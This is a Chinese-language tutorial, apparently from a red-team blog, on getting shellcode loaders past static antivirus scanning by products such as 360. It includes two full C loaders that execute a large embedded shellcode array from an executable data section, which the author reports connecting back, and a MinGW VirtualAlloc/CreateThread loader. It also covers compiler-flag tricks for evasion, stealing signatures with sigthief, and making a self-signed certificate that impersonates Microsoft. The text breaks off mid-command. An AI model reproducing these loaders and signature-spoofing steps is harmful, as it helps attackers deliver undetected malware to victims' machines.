

# 1.背景

当你的样本做好了, shellcode处理了, 加载器的代码也做了优化, 但是被杀软一扫描还是静态报毒, 很有可能是因为exe相关的操作需要进行处理, 第一个就是 **编译器/编译参数** 因为有些杀软宁可错杀1000也不过一个, 所以针对一些特定的编译器/编译参数, 即使你是输出 hello world, 也是会报毒的, 或者你当前程序**没有数字签名**就报毒, 以及**没有详细的版本信息**就报毒 那么我们可以通过*控制变量法*对比查杀效果, 进而总结出来杀软的查杀态度.

比如我们常说的360查杀vs编译的hello world

```c_cpp
#include <iostream>
int main()
{
  std::cout << "Hello World!\n";
}
```

配置好编译属性, 编译,要注意项目的属性配置。


360查杀


## 揭秘

### 修改

 

再次编译, 查杀


**1.MT选项：链接lib版的C++运行库集成到程序中，不需要dll，因此程序会变大**

**2.MD选项：使用DLL版的C++运行库，这样程序体积较小，但缺点电脑上没有对应DLL时无法运行**

所以当我们制作样本时，不需要用到其他DLL时，最好选择MD。

## 指针运行上线

```c_cpp
#include <windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

#pragma data_seg("vdata")
unsigned char sc[] = {0xe8,0xcc,0x04,0x00,0x00,0x70,0x41,0x85,0x53,0x2c,0xc1,0x71,0x70,0x2b,0xfe,0xb1,0x87,0xd0,0x09,0xbe,0xda,0x00,0x45,0x30,0x34,0x0c,0x45,0x02,0x34,0x0c,0xe2,0xf6,0xeb,0xf3,0x73,0x77,0x77,0x77,0x21,0x46,0x27,0xce,0x8a,0x2c,0x5c,0xbe,0x23,0x05,0x99,0x53,0x13,0xb3,0x93,0x92,0x08,0x2d,0x1d,0x01,0x81,0xc0,0xba,0xa6,0x2e,0x20,0xd4,0x71,0xb6,0x01,0x90,0xff,0x6c,0x82,0xd0,0x60,0x2b,0x88,0x34,0x29,0xd8,0x96,0xb9,0x1d,0x37,0xad,0x22,0x90,0xdb,0x4c,0x86,0xe8,0x7e,0x52,0xe9,0xf6,0xd7,0xe2,0x27,0x9c,0xfe,0x6f,0xde,0x9f,0x1a,0x67,0xde,0xa5,0x0c,0xc2,0xbc,0x74,0xa6,0x07,0xae,0xf9,0x35,0xc4,0x34,0x50,0xc5,0x3d,0xc6,0x96,0x27,0x5f,0xe4,0x08,0x43,0xb7,0x0e,0xf4,0xf5,0xd8,0x17,0xd6,0x04,0x67,0xb5,0x07,0x96,0x0e,0xb9,0x1c,0x96,0x3f,0x62,0x7b,0x44,0x09,0x83,0x80,0xcc,0x55,0x6c,0x2b,0x40,0x71,0xb5,0xcf,0xef,0x5e,0x61,0xad,0xb4,0xbc,0xe6,0xd5,0x15,0xa0,0x89,0x94,0x6f,0x8b,0xe1,0xfb,0x7e,0x9c,0x8b,0x7c,0xe3,0x60,0x9b,0xd9,0x7d,0x20,0x67,0x80,0x67,0xe4,0xbf,0x5a,0xc5,0x79,0x93,0xa1,0x70,0x81,0x9e,0xe4,0x3b,0xb5,0x32,0xec,0xa4,0xe2,0x6d,0x0d,0x25,0x27,0xf0,0x5c,0xa5,0xf0,0x20,0xd2,0xa5,0xcf,0xa9,0x29,0x0f,0x37,0x64,0x24,0xb5,0xf3,0x50,0x7c,0xe2,0x9a,0xa5,0xb7,0xc2,0x0c,0xbf,0xb3,0xcd,0xcd,0x02,0x72,0xff,0xea,0x3d,0xef,0xdb,0x49,0xf3,0x15,0x44,0x48,0x62,0x24,0x08,0x1c,0xfc,0x16,0x20,0xa9,0xa0,0x31,0x5a,0xc8,0x52,0xe6,0x63,0x06,0xf2,0x1d,0xe1,0xe6,0x53,0x40,0xca,0x4c,0x0d,0x50,0xfa,0x71,0xee,0xdf,0xb0,0xd3,0x70,0x20,0xcf,0xc5,0xb2,0x13,0x36,0x3a,0xd9,0xf2,0x69,0x99,0xf9,0xe4,0x1d,0xf0,0xc6,0x68,0x3f,0x02,0xbd,0x39,0xae,0xef,0x05,0xc3,0xc2,0x1e,0x85,0x1d,0x1f,0x9d,0x00,0x79,0xaa,0xcf,0xa3,0xde,0x1f,0xbe,0x4f,0x3c,0x6a,0x68,0x94,0x53,0x4e,0x6a,0xa0,0x22,0x40,0x25,0x62,0x6b,0x44,0xd6,0xf1,0xfe,0xa4,0x2b,0xe6,0x58,0xb4,0x1d,0x44,0xa5,0x84,0x82,0xa4,0x53,0x3c,0x56,0x4f,0x4e,0x1b,0x7c,0xb2,0x6b,0x2e,0xf4,0x01,0x5a,0x79,0xeb,0x4f,0x66,0x6f,0xec,0x25,0x40,0xd2,0x40,0x53,0x28,0x72,0x65,0xac,0x98,0x74,0x26,0x87,0x7b,0x9a,0x7a,0x1a,0x56,0xf0,0x49,0x72,0xfe,0x7e,0x48,0x17,0xa9,0xcc,0xd8,0x50,0x2a,0x47,0x1a,0x69,0x5b,0x02,0xd4,0xe1,0xec,0x1e,0x2d,0x09,0x03,0xd6,0x5d,0xdb,0xd0,0x67,0x89,0xfa,0x9f,0x0b,0x2f,0xb1,0xc8,0xb4,0x25,0xdb,0xaf,0x68,0xb5,0x85,0x54,0x62,0x86,0x4c,0x19,0xee,0xe4,0xdb,0x3b,0x89,0x39,0x4f,0x8a,0xe8,0xcd,0xb3,0xeb,0xea,0xe5,0x52,0xdd,0x49,0x69,0x7c,0xfc,0x22,0xc1,0x88,0x94,0xea,0xf0,0x44,0x67,0x70,0x6b,0xe4,0x8d,0x36,0x06,0xd6,0xa6,0xb1,0x53,0xaf,0xf7,0x46,0x6b,0x0e,0xc1,0x9d,0xc9,0x07,0x31,0x93,0xa2,0x7f,0x28,0x0b,0x88,0xa0,0x58,0x10,0xed,0xf6,0xed,0x2e,0xd8,0xb6,0x99,0x75,0xba,0x34,0xf2,0x38,0xc4,0xcf,0xf3,0x42,0xc3,0x9f,0x53,0xbc,0x57,0xff,0xd1,0x60,0x33,0x83,0x8c,0xe7,0x11,0xe0,0x39,0xe7,0xd2,0x0a,0x93,0x8a,0xb3,0xa3,0x89,0x23,0x96,0x8a,0x94,0xcf,0xf2,0x81,0xf2,0xff,0x65,0x7c,0xbe,0x14,0xb6,0x4a,0xf3,0x2a,0xe9,0x0c,0x52,0x08,0x4f,0xbc,0xc1,0x31,0xd1,0x12,0x25,0x2e,0x43,0x21,0x31,0x20,0x22,0xc5,0x92,0x48,0x9c,0x45,0x0e,0xfd,0x3a,0x1e,0x01,0xb0,0x78,0x0e,0x29,0x8d,0xa4,0x8d,0x1a,0x2f,0x9a,0xcf,0x58,0x21,0x5f,0x15,0x13,0x29,0x4d,0x3c,0x6d,0x68,0xe0,0x6e,0x76,0xa8,0xbc,0xad,0x61,0xd1,0x95,0xef,0xb7,0x18,0xfb,0xc5,0xb8,0x16,0xc7,0xa7,0x9a,0xd5,0x66,0x90,0xe7,0xe7,0x76,0xf9,0xdb,0xbc,0x60,0x33,0xec,0x67,0xf1,0x54,0xf3,0xd0,0xd4,0x88,0x67,0xb2,0x11,0x5b,0x28,0x47,0x24,0x8d,0x62,0x0b,0x98,0xe1,0x41,0x24,0xab,0x01,0x49,0x58,0x38,0x57,0x7f,0x3d,0xef,0xe4,0x45,0xa7,0x2b,0x6d,0x0e,0xe3,0xb1,0x67,0x03,0x13,0xf2,0x12,0x28,0x85,0xb5,0x50,0x3d,0x12,0x98,0xff,0x8c,0x15,0x4e,0x1d,0x36,0x92,0xb1,0x10,0x18,0xb2,0x49,0xe7,0x9f,0xa5,0xe0,0x41,0xc6,0x4d,0xc8,0xbe,0x4c,0x7d,0xad,0x7b,0x35,0x42,0x95,0xbd,0x3c,0xa3,0xe3,0x25,0x1e,0x6a,0xb2,0x98,0xf3,0x4a,0xa7,0xd8,0x75,0x2d,0x61,0x22,0xe2,0x28,0xaf,0xf4,0xb5,0xb2,0x76,0x39,0x28,0x68,0x52,0x2b,0xab,0xb5,0xc6,0x96,0xdb,0x71,0x84,0x78,0x40,0xf8,0xce,0x25,0xea,0x4d,0xb9,0x52,0x80,0x53,0x84,0x27,0xf2,0xfe,0x46,0xca,0x5a,0xc4,0x0a,0xc7,0x9f,0x0e,0x15,0x09,0x1d,0xf5,0x76,0x33,0x5a,0x43,0x48,0x51,0x3d,0x27,0x88,0x19,0x12,0x38,0xb0,0x6f,0x77,0x8f,0x05,0x32,0xc0,0x10,0xe2,0x85,0x03,0xe2,0x1b,0xdd,0xcc,0x6d,0xeb,0x99,0xac,0x9c,0xe7,0xae,0x4b,0x0e,0xc9,0x27,0xf1,0xbf,0x3f,0x90,0x18,0x07,0x3e,0xd6,0xd7,0x0a,0xa9,0x2c,0x32,0x4b,0x15,0xbf,0xef,0xeb,0x6f,0x52,0xe6,0xa0,0x19,0x3e,0x69,0x21,0xdc,0xf5,0x5a,0x1b,0x24,0x1f,0x37,0xda,0xf8,0x56,0x6c,0x62,0x7f,0x5a,0x02,0x3b,0xa5,0x1b,0xd8,0x2d,0x75,0x67,0x5e,0x6a,0xb9,0xd7,0x9b,0x83,0xfa,0x6b,0xa0,0x05,0xba,0x1b,0x7c,0xd3,0x13,0x79,0xc2,0x97,0x78,0x0f,0x0d,0xd0,0xcb,0xda,0x62,0x8d,0xfa,0x00,0x5f,0xc6,0xd7,0xcb,0x2f,0x30,0xf2,0xc0,0x90,0xfe,0xdf,0x99,0x3d,0xf2,0x8d,0x07,0x8b,0xb0,0xf6,0x95,0xb3,0x86,0x07,0x92,0xb6,0x1c,0x4a,0xaa,0x48,0x89,0x62,0x7b,0xda,0xfe,0x06,0x8b,0xd4,0x74,0x77,0x77,0x07,0xf9,0x75,0x33,0xb5,0xee,0x8a,0xa2,0x99,0xa5,0x33,0x7d,0xdb,0x81,0x32,0xaa,0x09,0xc0,0xa0,0x4a,0x5d,0x3d,0x59,0x66,0xc8,0x0e,0xd5,0x20,0x69,0x9d,0xa8,0x41,0xf9,0xd9,0xbd,0xa6,0xec,0xa2,0x2d,0x4c,0x10,0xbf,0xc2,0x64,0xfa,0x3a,0x6a,0x63,0xf2,0x0d,0xf0,0x7e,0x91,0xbb,0x38,0x2e,0x00,0x6c,0xed,0x80,0x3d,0x51,0xfd,0x25,0x72,0x20,0xf0,0xd8,0xa3,0xae,0x70,0xc2,0x63,0x70,0xa6,0x97,0x5b,0x38,0x92,0x7f,0xed,0xb3,0xe7,0x06,0x0c,0x71,0xf6,0x20,0x5f,0xa4,0xdc,0x6b,0x6b,0x8e,0xb3,0xe9,0x11,0x73,0x4f,0x5d,0x7c,0x44,0x8d,0xff,0xaa,0x36,0x13,0x8f,0xd7,0x28,0x24,0x0d,0xef,0xe6,0xb8,0x84,0x44,0xf8,0xaf,0x29,0x66,0xd6,0xa9,0xf0,0xa9,0xcb,0x0e,0x21,0xd5,0x60,0x2d,0x75,0x7a,0x66,0x6b,0xdc,0x52,0x04,0x63,0x5a,0x2c,0x41,0x33,0xcd,0x37,0x3e,0x88,0x95,0x69,0x5b,0x32,0x48,0x47,0x7a,0x48,0xae,0x53,0x19,0x71,0x37,0x68,0x80,0x77,0xc4,0x93,0x02,0x2d,0x16,0x99,0x3c,0x74,0xf9,0xfa,0x10,0x85,0x04,0xe5,0x7f,0x9e,0x33,0x95,0x25,0x38,0x90,0x27,0x25,0x8d,0x43,0xe8,0xd8,0xf6,0xab,0x46,0xa8,0x81,0x3c,0xff,0x3a,0xfa,0xb6,0xcb,0x37,0x68,0xcf,0x32,0xab,0xd8,0x49,0x65,0x2a,0xbe,0xa1,0x16,0xfb,0x42,0xa9,0x61,0x8d,0x52,0x0e,0x34,0xe8,0xc9,0xfc,0xec,0x88,0xf3,0xfe,0x71,0x60,0x44,0x71,0x7b,0xab,0x0a,0x6e,0xbc,0x01,0xe1,0x24,0x5b,0xf3,0x8c,0xb7,0xc6,0xa6,0x09,0xc4,0xbf,0xc7,0x7b,0x5b,0x05,0xe6,0x87,0x5e,0xb2,0x50,0x67,0x21,0xd5,0x3f,0xec,0x33,0xac,0x78,0x49,0xc4,0x3f,0xdd,0xad,0xd3,0x2e,0x3d,0x31,0x4c,0x11,0x59,0xca,0x8e,0x2a,0x5c,0x1f,0xe3,0xeb,0xa8,0x29,0xf9,0xfc,0x90,0x58,0xd9,0x16,0xc7,0x8f,0x63,0xf7,0xb4,0xb5,0xb5,0x3d,0xa4,0x0a,0x50,0x97,0xd4,0x95,0xc5,0xa5,0xb4,0xf5,0x21,0x48,0x8b,0x0c,0x24,0x48,0x83,0xec,0x08,0x81,0x01,0xd1,0x74,0x5d,0xf5,0xc1,0x49,0x04,0x8e,0x81,0x41,0x08,0xd5,0x01,0x9a,0x05,0x81,0x71,0x0c,0xf5,0x00,0xbe,0xda,0x51,0xc3}; // 最好sgn加密一下#pragma data_seg()
#pragma comment(linker,"/SECTION:vdata,RWE")

int main() {
    ((void(*)()) &sc)();}
```


使用MT编译：360查杀，直接杀

使用MD编译：为了保证代码内容发送变化, 我们仍然加上几行无意义的输出代码

```

#include <windows.h>
#include <iostream>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

#pragma data_seg("vdata")
unsigned char sc[] = { 0xe8,0xcc,0x04,0x00,0x00,0x70,0x41,0x85,0x53,0x2c,0xc1,0x71,0x70,0x2b,0xfe,0xb1,0x87,0xd0,0x09,0xbe,0xda,0x00,0x45,0x30,0x34,0x0c,0x45,0x02,0x34,0x0c,0xe2,0xf6,0xeb,0xf3,0x73,0x77,0x77,0x77,0x21,0x46,0x27,0xce,0x8a,0x2c,0x5c,0xbe,0x23,0x05,0x99,0x53,0x13,0xb3,0x93,0x92,0x08,0x2d,0x1d,0x01,0x81,0xc0,0xba,0xa6,0x2e,0x20,0xd4,0x71,0xb6,0x01,0x90,0xff,0x6c,0x82,0xd0,0x60,0x2b,0x88,0x34,0x29,0xd8,0x96,0xb9,0x1d,0x37,0xad,0x22,0x90,0xdb,0x4c,0x86,0xe8,0x7e,0x52,0xe9,0xf6,0xd7,0xe2,0x27,0x9c,0xfe,0x6f,0xde,0x9f,0x1a,0x67,0xde,0xa5,0x0c,0xc2,0xbc,0x74,0xa6,0x07,0xae,0xf9,0x35,0xc4,0x34,0x50,0xc5,0x3d,0xc6,0x96,0x27,0x5f,0xe4,0x08,0x43,0xb7,0x0e,0xf4,0xf5,0xd8,0x17,0xd6,0x04,0x67,0xb5,0x07,0x96,0x0e,0xb9,0x1c,0x96,0x3f,0x62,0x7b,0x44,0x09,0x83,0x80,0xcc,0x55,0x6c,0x2b,0x40,0x71,0xb5,0xcf,0xef,0x5e,0x61,0xad,0xb4,0xbc,0xe6,0xd5,0x15,0xa0,0x89,0x94,0x6f,0x8b,0xe1,0xfb,0x7e,0x9c,0x8b,0x7c,0xe3,0x60,0x9b,0xd9,0x7d,0x20,0x67,0x80,0x67,0xe4,0xbf,0x5a,0xc5,0x79,0x93,0xa1,0x70,0x81,0x9e,0xe4,0x3b,0xb5,0x32,0xec,0xa4,0xe2,0x6d,0x0d,0x25,0x27,0xf0,0x5c,0xa5,0xf0,0x20,0xd2,0xa5,0xcf,0xa9,0x29,0x0f,0x37,0x64,0x24,0xb5,0xf3,0x50,0x7c,0xe2,0x9a,0xa5,0xb7,0xc2,0x0c,0xbf,0xb3,0xcd,0xcd,0x02,0x72,0xff,0xea,0x3d,0xef,0xdb,0x49,0xf3,0x15,0x44,0x48,0x62,0x24,0x08,0x1c,0xfc,0x16,0x20,0xa9,0xa0,0x31,0x5a,0xc8,0x52,0xe6,0x63,0x06,0xf2,0x1d,0xe1,0xe6,0x53,0x40,0xca,0x4c,0x0d,0x50,0xfa,0x71,0xee,0xdf,0xb0,0xd3,0x70,0x20,0xcf,0xc5,0xb2,0x13,0x36,0x3a,0xd9,0xf2,0x69,0x99,0xf9,0xe4,0x1d,0xf0,0xc6,0x68,0x3f,0x02,0xbd,0x39,0xae,0xef,0x05,0xc3,0xc2,0x1e,0x85,0x1d,0x1f,0x9d,0x00,0x79,0xaa,0xcf,0xa3,0xde,0x1f,0xbe,0x4f,0x3c,0x6a,0x68,0x94,0x53,0x4e,0x6a,0xa0,0x22,0x40,0x25,0x62,0x6b,0x44,0xd6,0xf1,0xfe,0xa4,0x2b,0xe6,0x58,0xb4,0x1d,0x44,0xa5,0x84,0x82,0xa4,0x53,0x3c,0x56,0x4f,0x4e,0x1b,0x7c,0xb2,0x6b,0x2e,0xf4,0x01,0x5a,0x79,0xeb,0x4f,0x66,0x6f,0xec,0x25,0x40,0xd2,0x40,0x53,0x28,0x72,0x65,0xac,0x98,0x74,0x26,0x87,0x7b,0x9a,0x7a,0x1a,0x56,0xf0,0x49,0x72,0xfe,0x7e,0x48,0x17,0xa9,0xcc,0xd8,0x50,0x2a,0x47,0x1a,0x69,0x5b,0x02,0xd4,0xe1,0xec,0x1e,0x2d,0x09,0x03,0xd6,0x5d,0xdb,0xd0,0x67,0x89,0xfa,0x9f,0x0b,0x2f,0xb1,0xc8,0xb4,0x25,0xdb,0xaf,0x68,0xb5,0x85,0x54,0x62,0x86,0x4c,0x19,0xee,0xe4,0xdb,0x3b,0x89,0x39,0x4f,0x8a,0xe8,0xcd,0xb3,0xeb,0xea,0xe5,0x52,0xdd,0x49,0x69,0x7c,0xfc,0x22,0xc1,0x88,0x94,0xea,0xf0,0x44,0x67,0x70,0x6b,0xe4,0x8d,0x36,0x06,0xd6,0xa6,0xb1,0x53,0xaf,0xf7,0x46,0x6b,0x0e,0xc1,0x9d,0xc9,0x07,0x31,0x93,0xa2,0x7f,0x28,0x0b,0x88,0xa0,0x58,0x10,0xed,0xf6,0xed,0x2e,0xd8,0xb6,0x99,0x75,0xba,0x34,0xf2,0x38,0xc4,0xcf,0xf3,0x42,0xc3,0x9f,0x53,0xbc,0x57,0xff,0xd1,0x60,0x33,0x83,0x8c,0xe7,0x11,0xe0,0x39,0xe7,0xd2,0x0a,0x93,0x8a,0xb3,0xa3,0x89,0x23,0x96,0x8a,0x94,0xcf,0xf2,0x81,0xf2,0xff,0x65,0x7c,0xbe,0x14,0xb6,0x4a,0xf3,0x2a,0xe9,0x0c,0x52,0x08,0x4f,0xbc,0xc1,0x31,0xd1,0x12,0x25,0x2e,0x43,0x21,0x31,0x20,0x22,0xc5,0x92,0x48,0x9c,0x45,0x0e,0xfd,0x3a,0x1e,0x01,0xb0,0x78,0x0e,0x29,0x8d,0xa4,0x8d,0x1a,0x2f,0x9a,0xcf,0x58,0x21,0x5f,0x15,0x13,0x29,0x4d,0x3c,0x6d,0x68,0xe0,0x6e,0x76,0xa8,0xbc,0xad,0x61,0xd1,0x95,0xef,0xb7,0x18,0xfb,0xc5,0xb8,0x16,0xc7,0xa7,0x9a,0xd5,0x66,0x90,0xe7,0xe7,0x76,0xf9,0xdb,0xbc,0x60,0x33,0xec,0x67,0xf1,0x54,0xf3,0xd0,0xd4,0x88,0x67,0xb2,0x11,0x5b,0x28,0x47,0x24,0x8d,0x62,0x0b,0x98,0xe1,0x41,0x24,0xab,0x01,0x49,0x58,0x38,0x57,0x7f,0x3d,0xef,0xe4,0x45,0xa7,0x2b,0x6d,0x0e,0xe3,0xb1,0x67,0x03,0x13,0xf2,0x12,0x28,0x85,0xb5,0x50,0x3d,0x12,0x98,0xff,0x8c,0x15,0x4e,0x1d,0x36,0x92,0xb1,0x10,0x18,0xb2,0x49,0xe7,0x9f,0xa5,0xe0,0x41,0xc6,0x4d,0xc8,0xbe,0x4c,0x7d,0xad,0x7b,0x35,0x42,0x95,0xbd,0x3c,0xa3,0xe3,0x25,0x1e,0x6a,0xb2,0x98,0xf3,0x4a,0xa7,0xd8,0x75,0x2d,0x61,0x22,0xe2,0x28,0xaf,0xf4,0xb5,0xb2,0x76,0x39,0x28,0x68,0x52,0x2b,0xab,0xb5,0xc6,0x96,0xdb,0x71,0x84,0x78,0x40,0xf8,0xce,0x25,0xea,0x4d,0xb9,0x52,0x80,0x53,0x84,0x27,0xf2,0xfe,0x46,0xca,0x5a,0xc4,0x0a,0xc7,0x9f,0x0e,0x15,0x09,0x1d,0xf5,0x76,0x33,0x5a,0x43,0x48,0x51,0x3d,0x27,0x88,0x19,0x12,0x38,0xb0,0x6f,0x77,0x8f,0x05,0x32,0xc0,0x10,0xe2,0x85,0x03,0xe2,0x1b,0xdd,0xcc,0x6d,0xeb,0x99,0xac,0x9c,0xe7,0xae,0x4b,0x0e,0xc9,0x27,0xf1,0xbf,0x3f,0x90,0x18,0x07,0x3e,0xd6,0xd7,0x0a,0xa9,0x2c,0x32,0x4b,0x15,0xbf,0xef,0xeb,0x6f,0x52,0xe6,0xa0,0x19,0x3e,0x69,0x21,0xdc,0xf5,0x5a,0x1b,0x24,0x1f,0x37,0xda,0xf8,0x56,0x6c,0x62,0x7f,0x5a,0x02,0x3b,0xa5,0x1b,0xd8,0x2d,0x75,0x67,0x5e,0x6a,0xb9,0xd7,0x9b,0x83,0xfa,0x6b,0xa0,0x05,0xba,0x1b,0x7c,0xd3,0x13,0x79,0xc2,0x97,0x78,0x0f,0x0d,0xd0,0xcb,0xda,0x62,0x8d,0xfa,0x00,0x5f,0xc6,0xd7,0xcb,0x2f,0x30,0xf2,0xc0,0x90,0xfe,0xdf,0x99,0x3d,0xf2,0x8d,0x07,0x8b,0xb0,0xf6,0x95,0xb3,0x86,0x07,0x92,0xb6,0x1c,0x4a,0xaa,0x48,0x89,0x62,0x7b,0xda,0xfe,0x06,0x8b,0xd4,0x74,0x77,0x77,0x07,0xf9,0x75,0x33,0xb5,0xee,0x8a,0xa2,0x99,0xa5,0x33,0x7d,0xdb,0x81,0x32,0xaa,0x09,0xc0,0xa0,0x4a,0x5d,0x3d,0x59,0x66,0xc8,0x0e,0xd5,0x20,0x69,0x9d,0xa8,0x41,0xf9,0xd9,0xbd,0xa6,0xec,0xa2,0x2d,0x4c,0x10,0xbf,0xc2,0x64,0xfa,0x3a,0x6a,0x63,0xf2,0x0d,0xf0,0x7e,0x91,0xbb,0x38,0x2e,0x00,0x6c,0xed,0x80,0x3d,0x51,0xfd,0x25,0x72,0x20,0xf0,0xd8,0xa3,0xae,0x70,0xc2,0x63,0x70,0xa6,0x97,0x5b,0x38,0x92,0x7f,0xed,0xb3,0xe7,0x06,0x0c,0x71,0xf6,0x20,0x5f,0xa4,0xdc,0x6b,0x6b,0x8e,0xb3,0xe9,0x11,0x73,0x4f,0x5d,0x7c,0x44,0x8d,0xff,0xaa,0x36,0x13,0x8f,0xd7,0x28,0x24,0x0d,0xef,0xe6,0xb8,0x84,0x44,0xf8,0xaf,0x29,0x66,0xd6,0xa9,0xf0,0xa9,0xcb,0x0e,0x21,0xd5,0x60,0x2d,0x75,0x7a,0x66,0x6b,0xdc,0x52,0x04,0x63,0x5a,0x2c,0x41,0x33,0xcd,0x37,0x3e,0x88,0x95,0x69,0x5b,0x32,0x48,0x47,0x7a,0x48,0xae,0x53,0x19,0x71,0x37,0x68,0x80,0x77,0xc4,0x93,0x02,0x2d,0x16,0x99,0x3c,0x74,0xf9,0xfa,0x10,0x85,0x04,0xe5,0x7f,0x9e,0x33,0x95,0x25,0x38,0x90,0x27,0x25,0x8d,0x43,0xe8,0xd8,0xf6,0xab,0x46,0xa8,0x81,0x3c,0xff,0x3a,0xfa,0xb6,0xcb,0x37,0x68,0xcf,0x32,0xab,0xd8,0x49,0x65,0x2a,0xbe,0xa1,0x16,0xfb,0x42,0xa9,0x61,0x8d,0x52,0x0e,0x34,0xe8,0xc9,0xfc,0xec,0x88,0xf3,0xfe,0x71,0x60,0x44,0x71,0x7b,0xab,0x0a,0x6e,0xbc,0x01,0xe1,0x24,0x5b,0xf3,0x8c,0xb7,0xc6,0xa6,0x09,0xc4,0xbf,0xc7,0x7b,0x5b,0x05,0xe6,0x87,0x5e,0xb2,0x50,0x67,0x21,0xd5,0x3f,0xec,0x33,0xac,0x78,0x49,0xc4,0x3f,0xdd,0xad,0xd3,0x2e,0x3d,0x31,0x4c,0x11,0x59,0xca,0x8e,0x2a,0x5c,0x1f,0xe3,0xeb,0xa8,0x29,0xf9,0xfc,0x90,0x58,0xd9,0x16,0xc7,0x8f,0x63,0xf7,0xb4,0xb5,0xb5,0x3d,0xa4,0x0a,0x50,0x97,0xd4,0x95,0xc5,0xa5,0xb4,0xf5,0x21,0x48,0x8b,0x0c,0x24,0x48,0x83,0xec,0x08,0x81,0x01,0xd1,0x74,0x5d,0xf5,0xc1,0x49,0x04,0x8e,0x81,0x41,0x08,0xd5,0x01,0x9a,0x05,0x81,0x71,0x0c,0xf5,0x00,0xbe,0xda,0x51,0xc3 }; // 最好sgn加密一下#pragma data_seg()
#pragma comment(linker,"/SECTION:vdata,RWE")

int main() {
  ((void(*)()) & sc)();
  std::cout << "";
}
```

运行上线, 正常执行系统命令

# 2.编译器

## 2.1MinGW

也就是常说的gcc,64位系统建议选择 x86_64-posix-sjlj , 移动到自定义的解压路径下 , 解压 , 添加环境变量


```c_cpp
#include <windows.h>
//#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
void main() {
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
    LPVOID exec = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE,
   PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    HANDLE hThread = CreateThread(
   0,
    0,
    (LPTHREAD_START_ROUTINE)exec,
    0,
    0,
    0);
    WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
}
```

通过创建线程运行shellcode



编译命令

```
gcc test.c -mwindows -o test.exe
通过 -mwindows 参数屏蔽黑窗口
```

一样的源代码,mingw编译的


clion编译的：


# 3.exe处理

针对360的qvm, 经常人工智能抽风, 有的时候真的不是代码问题, 而是qvm瞎鸡儿报毒( 运行库选择了MT ), 网上公开的针对qvm的处理也是通过加数字签名和加资源bypass

## 3.1加签名

添加数字签名

```
python3 sigthief.py -i 签名文件 -t 样本.exe -o 输出.exe
python3 sigthief.py -i sign_exe\360.exe -t output.exe -o output_s.exe
```


但是该签名是无效的签名, 只能用于模拟正常程序


自签名证书

```
第一次创建签名文件,中间需要输入密码
makecert -r -pe -n "CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, 
L=Redmond, S=Washington, C=US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky 
signature -sv Microsoft.pvk Microsoft.cer
certutil -user -addstore Root Microsoft.cer
makecert -pe -n "CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, 
